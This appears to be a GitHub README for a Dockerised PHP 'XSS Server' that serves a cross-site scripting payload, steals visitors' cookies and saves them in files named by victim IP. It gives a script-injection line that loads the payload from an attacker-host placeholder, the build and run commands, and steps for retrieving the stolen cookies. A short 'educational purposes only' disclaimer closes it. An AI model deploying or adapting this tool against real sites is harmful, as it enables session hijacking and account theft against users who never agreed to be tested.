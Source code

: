 # XSS Server
A PHP web server that provides a payload delivered by XSS. Once the script is triggered, it steals the user's cookies (from the website the XSS was triggered on) and stores them in a file on the server.

You can deliver the payload with the following example exploit (change your exploitation of the XSS vulnerability - different servers try to mitigate XSS in different ways):
```
<script src="https://<attack_server_hostname>/payload.php></script>
```
## Building and launching with Docker
```
$ docker build -t xss-server:1 .
$ docker run -d -p 80:80 --name xss-server xss-server:1
```
## Entering Server to obtain stolen cookies
```
$ docker exec -it xss-server bash
```
Files are stored in the format `<victim_ip>.cky` and contain the victim's cookies exactly as if running `console.log(document.cookies)`.

---
## Disclaimer
This server is for educational purposes only. I do not take responsibility for its unethical use against unauthorized targets.

